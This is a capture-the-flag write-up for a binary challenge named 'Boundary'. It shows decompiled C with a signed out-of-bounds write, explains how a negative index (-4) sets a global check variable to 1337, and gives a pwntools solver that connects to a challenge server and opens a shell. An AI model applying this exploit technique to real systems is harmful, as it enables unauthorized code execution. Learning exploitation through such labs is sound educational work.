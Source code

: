 # Boundary
![challenge](../images/boundary.png)

## Source Code
```c
void win(void)

{
  if (check == 0x539) {
    system("/bin/sh");
    return;
  }
  puts("Who the f are you");
                    /* WARNING: Subroutine does not return */
  exit(-1);
}
```
```c
undefined8 main(void)

{
  int var1;
  int var2;
  
  setup();
  puts("I am going to give you one chance to get victory");
  __isoc99_scanf("%d %d",&var2,&var1);
  if (var2 < 5) {
    *(int *)(info + (long)var2 * 4) = *(int *)(info + (long)var2 * 4) + var1;
  }
  win();
  return 0;
}
```
## Overview
In this challenge we got 2 variable stored in the Stack ```info = 0x4040a0``` and ```check = 0x404090``` where the difference is 0x10. So in order to solve it we need to point to ```check``` and assign to it ```0x539```(1337 in integer) to get a Shell. But how we do that ?<br>
Thanks to this expression ```*(int *)(info + (long)var2 * 4) = *(int *)(info + (long)var2 * 4) + var1;``` if ```var2 == -4``` and ```var1 == 1337``` it will be like ```*(int *)(0x404090) = 0 + 1337``` as simple as that !

## Solver
```py
#!/usr/bin/env python3
from pwn import *

p = remote("20.216.40.184", 10013)

p.sendline(b'-4')
p.sendline(b'1337')
p.interactive()
p.close()
```
